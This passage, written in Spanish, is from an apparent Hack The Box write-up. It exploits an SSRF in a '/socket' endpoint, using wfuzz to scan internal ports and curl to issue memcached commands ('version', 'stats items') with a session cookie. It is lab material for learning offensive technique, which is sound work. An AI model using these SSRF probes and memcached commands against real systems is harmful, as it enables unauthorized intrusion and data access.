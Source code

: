 <img src="/writeups/assets/img/Phoenix-htb/7.png" alt="">

Si introduzco mi IP y un puerto recibo una advertencia

<img src="/writeups/assets/img/Phoenix-htb/8.png" alt="">

Como en la cabecera está referenciando a 'cache', es probable que se esté empleando por detrás ```memcached```

Es vulnerable a SSRF. Puedo descubrir los puertos internos

```null
wfuzz -c --hw=40 -t 70 -z range,1-65535 -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=secret" 'http://10.10.10.86:8080/socket?port=FUZZ&cmd=localhost'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.86:8080/socket?port=FUZZ&cmd=localhost
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000022:   200        28 L     55 W       629 Ch      "22"                                                                                                                                           
000000021:   200        28 L     61 W       627 Ch      "21"                                                                                                                                           
000000080:   200        40 L     84 W       1010 Ch     "80"                                                                                                                                           
000008080:   200        40 L     84 W       1010 Ch     "8080"                                                                                                                                         
000011211:   200        27 L     52 W       576 Ch      "11211"  
```

Tengo permisos para ejecutar comandos en el memcached

```null
curl -s -X GET -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd=version' | html2text

Status of cache engine: Online
*** TCP socket test ***
[port                ] [cmd                 ]
/input>
Output
VERSION 1.4.25 Ubuntu
```

Listo los STATs items

```null
curl -s -X GET -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd=stats+items' | html2text

Status of cache engine: Online
*** TCP socket test ***
[port                ] [cmd                 ]
/input>
Output
STAT items:16:number 1
STAT items:16:age 2214
STAT items:16:evicted 0
STAT items:16:evicted_nonzero 0
STAT items:16:evicted_time 0
```